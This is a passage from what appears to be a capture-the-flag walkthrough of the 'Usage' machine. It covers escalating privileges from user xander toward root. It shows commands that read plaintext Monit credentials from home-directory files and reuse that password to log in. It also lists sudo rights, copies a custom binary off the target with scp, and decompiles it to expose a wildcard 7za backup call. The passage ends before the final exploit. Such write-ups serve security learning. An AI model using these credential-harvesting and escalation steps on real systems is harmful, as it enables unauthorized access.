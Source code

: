Outputting these files we find some hard credentials:
```bash
cat ~/.monit*
```

![Monit Plaintext Creds](monit-credentials.png)
_Monit Plaintext Credentials_

Turns out this password is for the Xander user:

![Xander Successful Login](Xander-login.png)
_Xander Successful Login_

### Xander -> Root
Once logged in as Xander we can see that the user can execute `/usr/bin/usage_management` with sudo permissions:
```bash
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

Seems to be a custom Linux binary:
![usage\_mangement File Info](usage_management File Info.png)
_Binary Details_

![Binary Execution Example](usage_management execution example.png)
_usage_management Execution_

Download & Upload the binary to [DogBolt Decompiler](https://dogbolt.org/) in order to analyze the file. 
```bash
scp xander@usage.htb:/usr/bin/usage_management .
```

Using DogBolt's Built-in angr Decompiler tool we can see the underlying commands that the usage_management binary is executing upon selection:
```c#
void backupWebContent()
{
    char v0;  // [bp-0x8]
    unsigned long long v2;  // rbp

    v2 = &v0;
    if (chdir("/var/www/html"))
    {
        perror("Error changing working directory to /var/www/html");
        return;
    }
    system("/usr/bin/7za a /var/backups/project.zip -tzip -snl -mmt -- *");
    return;
}

void backupMysqlData()
{
    char v0;  // [bp-0x8]
    unsigned long long v2;  // rbp

    v2 = &v0;
    system("/usr/bin/mysqldump -A > /var/backups/mysql_backup.sql");
```